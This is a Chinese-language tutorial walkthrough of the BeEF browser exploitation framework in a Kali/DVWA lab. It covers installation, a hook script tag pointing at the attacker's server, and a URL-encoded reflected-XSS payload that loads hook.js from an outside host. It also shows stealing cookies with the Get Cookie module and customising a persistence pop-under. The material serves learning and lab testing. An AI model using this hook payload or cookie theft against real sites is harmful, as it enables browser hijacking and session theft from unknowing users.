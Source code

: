 浏览器利用框架项目

![过程](./../../../images/BeEF/%E8%BF%87%E7%A8%8B.png)

## 1 安装

安装 Beef-XSS

```
┌──(root㉿Kali-24)-[~]
└─# apt update
┌──(root㉿Kali-24)-[~]
└─# apt install -y beef-xss
```

初始化 Beef-XSS

```
┌──(root㉿Kali-24)-[~]
└─# beef-xss
```

设置密码

```
[-] Please type a new password for the beef user: 
```

> 用户名    beef
> 
> 密码        beef-xss

在配置文件中查看密码

```
┌──(root㉿Kali-24)-[~]
└─# vim /etc/beef-xss/config.yaml
```

```
pass: beef
passwd: beef-xss
```

查看地址

```
[*]  Web UI: http://127.0.0.1:3000/ui/panel                                “控制台地址”
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>            “劫持地址”
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>        “模板地址"
```

查看主目录

```
┌──(root㉿Kali-24)-[~]
└─# ls /usr/share/beef-xss
```

浏览器访问

> http://192.168.1.24:3000/ui/panel
> 
> 查看控制台

浏览器访问

> http://192.168.1.24:3000/hook.js
> 
> 查看模板

## 2 劫持用户浏览器

利用提供的 hook.js 构造 payload 构造在目标 URL 中

当用户访问目标 URL ，即可劫持成功

实战

> [XSS 跨站脚本攻击.md](..\..\XSS 跨站脚本攻击\XSS 跨站脚本攻击.md)
> 
> 反射型 XSS 攻击劫持用户浏览器

浏览器访问

> http://192.168.1.76/DVWA/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%20%73%72%63%3d%22%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%2e%32%34%3a%33%30%30%30%2f%68%6f%6f%6b%2e%6a%73%22%3e%3c%2f%73%63%72%69%70%74%3e
> 
> 劫持浏览器

## 3 beef 模块的使用

查看模块

![查看模块](./../../../images/BeEF/%E6%9F%A5%E7%9C%8B%E6%A8%A1%E5%9D%97.png)

颜色分类

![](./../../../images/BeEF/%E9%A2%9C%E8%89%B2%E5%88%86%E7%B1%BB.png)

| 操作   | 描述                        |
| ---- | ------------------------- |
| 绿色模块 | 表示模块适合目标浏览器，并且执行结果对客户端不可见 |
| 红色模块 | 表示模块不适用于当前用户，有些红色模块也可正常执行 |
| 橙色模块 | 模块可用，但结果对用户可见(CAM弹窗申请权限等) |
| 灰色模块 | 模块未在目标浏览器上测试过             |

### 3.1 获取 Cookie

执行 Get Cookie 模块

![执行 Get Cookie 模块](./../../../images/BeEF/%E6%89%A7%E8%A1%8C%20Get%20Cookie%20%E6%A8%A1%E5%9D%97.png)

查看获取到的 Cookie

![查看获取到的 Cookie](./../../../images/BeEF/%E6%9F%A5%E7%9C%8B%E8%8E%B7%E5%8F%96%E5%88%B0%E7%9A%84%20Cookie.png)

### 3.2 弹窗

执行 Create Pop Under 模块

![执行 Create Pop Under 模块](./../../../images/BeEF/%E6%89%A7%E8%A1%8C%20Create%20Pop%20Under%20%E6%A8%A1%E5%9D%97.png)

弹出窗口

![弹出窗口](./../../../images/BeEF/%E5%BC%B9%E5%87%BA%E7%AA%97%E5%8F%A3.png)

> 弹窗默认没有任何内容显示，可编辑弹窗文件，增加图片

切换到弹窗模块所在目录

```
┌──(root㉿Kali-24)-[~]
└─# cd /usr/share/beef-xss/modules/
```

```
┌──(root㉿Kali-24)-[/usr/share/beef-xss/modules]
└─# ls                    
browser  chrome_extensions  debug  exploits  host  ipec  metasploit  misc  network  persistence  phonegap  social_engineering
```

根据路径找到弹窗模块

```
┌──(root㉿Kali-24)-[/usr/share/beef-xss/modules]
└─# cd /usr/share/beef-xss/modules/persistence/popunder_window
```

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/modules/persistence/popunder_window]
└─# ls
command.js  config.yaml  module.rb
```

编辑配置文件

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/modules/persistence/popunder_window]
└─# vim command.js
```

修改

```
window.open(popunder_url,popunder_name,'toolbar=0,location=0,directories=0,status=0,menubar=0,scrollbars=0,resizable=0,width=1,height=1,left='+screen.width+',top='+screen.height+'').blur();
```

```
window.open(popunder_url,popunder_name,'toolbar=0,location=0,directories=0,status=0,menubar=0,scrollbars=0,resizable=0,width=550,height=320,left='+(screen.width/2-500)+',top='+(screen.height/2-200)+'').blur();
```

| 操作         | 描述                                                           |
| ---------- | ------------------------------------------------------------ |
| width=515  | 弹窗宽度 515 像素                                                  |
| height=320 | 弹窗高度 320 像素                                                  |
| left       | 弹窗距离浏览器左边的距离设置为 (screen.width/2-500)，其中 screen.width 为屏幕的宽度  |
| top        | 弹窗距离浏览器顶端的距离为 (screen.height/2-200) ，其中 screen.height 为屏幕的高度 |

> plain.html 是弹窗调用的 html 页面
> width=1 和 height=1 是控制弹窗的大小，left 和 top 是控制弹窗在屏幕上显示的位

切换到弹窗页面所在目录

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/modules/persistence/popunder_window]
└─# cd /usr/share/beef-xss/extensions/demos/html
```

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/extensions/demos/html]
└─# ls
adobe_flash_update.crx  ajax-loader.gif  beef.jpg  clickjacking  report.html       sound.wav
adobe_flash_update.png  basic.html       butcher   plain.html    secret_page.html
```

> plain.html 即是弹窗所调用的 html 文件

上传图片    `demo.jpg`    到以上目录

编辑 plain.html 文件

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/extensions/demos/html]
└─# vim plain.html
```

在 `<body> </body>` 中间插入如下代码

```
<a href="http://www.qq.com" target="_blank" ><img src="/demos/demo.jpg" width="500"></a>
```

| 操作              | 描述                |
| --------------- | ----------------- |
| a               | 链接标签              |
| href            | 指定点击后跳转到哪个链接地址    |
| target="_blank" | 指定点击广告图片后单独弹出一个页面 |

在浏览器上再次执行弹窗模块

![在浏览器上再次执行弹窗模块](./../../../images/BeEF/%E5%9C%A8%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%8A%E5%86%8D%E6%AC%A1%E6%89%A7%E8%A1%8C%E5%BC%B9%E7%AA%97%E6%A8%A1%E5%9D%97.png)

点击图片

![点击图片](./../../../images/BeEF/%E7%82%B9%E5%87%BB%E5%9B%BE%E7%89%87.png)

> 跳转到了 www.qq.com

---

Refrences

- [BeEF](https://beefproject.com/)
